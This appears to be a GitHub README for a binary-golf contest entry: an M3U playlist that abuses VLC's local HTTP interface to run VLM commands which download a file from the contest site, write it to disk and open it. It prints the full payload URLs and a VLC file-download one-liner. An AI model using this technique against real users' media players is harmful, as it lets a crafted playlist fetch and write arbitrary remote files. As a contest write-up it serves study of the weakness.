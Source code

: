 # BGGP5 - A M3U for VLC

aka SSRF'ing VLCs HTTP interface.

Should support Linux and MacOS, you may need to click off the playlist and
reclick it on macos to get VLC to show the updated playlist.
(something to do with the error this causes, I think).

## TL;DR

* `.m3u`s as VLC supports them can just be a list of URLs, which VLC will send
  requests to fetch. You don't need anything else like "#EXTM3U" as VLC doesn't
  care.
* When opened, `m3u`s will add their contents to the active playlist, with the
  filename being the name that shows up in the playlist if not otherwise
  overridden.
* VLC has an incredibly insecure http interface, which allows you to just send
  GET requests (with the requirement of HTTP auth) to access its commands.
* The interface lets you use VLM commands, which lets you script VLC to create
  streams.
* It is possible to use run a few VLM commands to download a file via HTTPS to
  disk, and also open this file as well.
* So if you download `https://binary.golf/5/5`, save it as a m3u and open it
  and the contents will be displayed right in the playlist!

![In Action](https://github.com/bahorn/BGGP5-m3u-vlc/blob/master/img/pic.png?raw=true)

## Write up

### From just the command line

To start off, here is a LOLbin usage of VLC to download a file:
```
vlc https://binary.golf/5/5 :demux=dump :demuxdump-file=out.vlc out.vlc
```

(l33t 0d4y, not listed in GTFO bins!)

A few things to note:
* VLC supports accessing HTTP(S) URLs.
* You can use the dump demux [1], that will just write a file with no changes,
  avoiding all media parsing.
* out.vlc will be used as a playlist (.vlc is just an alias for .m3u) and will
  resolve the filename.

### HTTP Interface

#### Enabling

We have to run VLC with some extra flags to enable the http server:
```
vlc -I qt --extraintf http --http-password 5 --http-port 8080 payload.m3u8
```

* Setting the default interface to QT (or macosx on macos)
* Enable the HTTP server, set a password (a requirement) and the port.

We need to set the port as I hit different port numbers on macos and linux.

#### What can we do

Looking at [2], we can see two interesting endpoints:
* `status.xml`
* `vlm_cmd.xml`

With `status.xml`, we can play directly play a file from disk, which will come
in handy.

`vlm_cmd.xml` gives us the ability to run VLM commands, which has a lot of
power.

Both are used by passing the query `?command=blah` where blah is the command you
want to run.
Entirely via GET requests!

### VLM to write to disk

VLM[3] gives you a set of commands to setup streams / otherwise control VLC.

After some experimenting, I found the following VLM commands to write a file
downloaded over HTTP to disk:

```
new c vod enabled input https://binary.golf/5/5 option demux=dump option demuxdump-file=.m3u
control c play
```

I did experiment with using stream outputs, but I realised I could just use
`demux=dump` here to write it out.

### Bringing everything together

So, we can then run our vlm commands by putting the following in the file:
```
http://:5@0:8080/requests/vlm_cmd.xml?command=new c vod enabled input https://binary.golf/5/5 option demux%3ddump option demuxdump-file%3d.m3u
http://:5@0:8080/requests/vlm_cmd.xml?command=control c play
```

`https://:5@0:8080/` does HTTP auth with the password 5, and 0 is an alias for
localhost we can use.
We get to pass our command easily, just needing to manually urlencode `=`.

Finally, we can open the BGGP5 file we saved to disk as a m3u, and it'll
display:
```
http://:5@0:8080/requests/status.xml?command=in_play&input=.m3u
```

You can also save further space by binding VLC to port 80, saving 15 bytes.

## References

* [1] https://wiki.videolan.org/Demuxdump/
* [2] https://wiki.videolan.org/VLC_HTTP_requests/
* [3] https://github.com/videolan/vlc/blob/master/doc/vlm.txt
